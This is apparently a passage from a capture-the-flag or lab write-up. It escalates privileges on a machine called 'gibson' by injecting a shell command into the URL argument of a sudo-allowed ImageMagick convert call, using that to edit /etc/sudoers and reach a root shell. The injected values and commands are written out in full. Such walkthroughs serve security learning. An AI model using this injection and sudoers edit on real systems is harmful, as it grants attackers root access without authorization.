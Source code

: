 > Due to insufficient %M param filtering it is possible to conduct shell command injection, where %M is the actual 
> link from the input. It is possible to pass the value like `https://example.com"|ls "-la` and 
> execute unexpected 'ls -la'. (wget or curl should be installed)

So, the injection would look like this: 

<code>/usr/bin/convert 'https://dummyurl"| command"' tragic.png</code>

And if the command takes arguments:

<code>/usr/bin/convert 'https://dummyurl"| command"-flags' tragic.png</code>

Of course, you are not limited to the pipe character. You can also use **;**.

Since the convert binary runs with sudo privileges, it is possible to escalate privileges by editing **/etc/sudoers**:

``` 
margo@gibson:~$ sudo /usr/bin/convert 'https://dummyurl";vim /etc/sudoers"' tragic.png
```

The sudoers file will pop up in vim, and I gave full access to margo:

``` 
# User privilege specification
root    ALL=(ALL:ALL) ALL

margo    ALL=(ALL:ALL) ALL
```

Also, some other interesting tidbits in the the sudoers file:

``` 
# Allow members of group sudo to execute any command
## disabled after Margo's security incident
##%sudo ALL=(ALL:ALL) ALL

# Allow Margo to convert pictures from the FTP server
margo ALL=(ALL) NOPASSWD: /usr/bin/convert
# Allow eugene to manage virtual machines and visudo
eugene ALL=(ALL) NOPASSWD: /usr/bin/virt-manager
eugene ALL=(ALL:ALL)  /usr/sbin/visudo
```

I quit vim with <code>:wq!</code> to override the warning I got. The convert binary throws some errors, but the code was executed!

``` 
convert: unable to open image `/tmp/magick-AJXBjcDc': No such file or directory @ error/blob.c/OpenBlob/2638.
convert: unable to open file `/tmp/magick-AJXBjcDc': No such file or directory @ error/constitute.c/ReadImage/583.
convert: no images defined `tragic.png' @ error/convert.c/ConvertImageCommand/3044.
margo@gibson:~$ sudo su
[sudo] password for margo: 
root@gibson:/home/margo# 
``` 
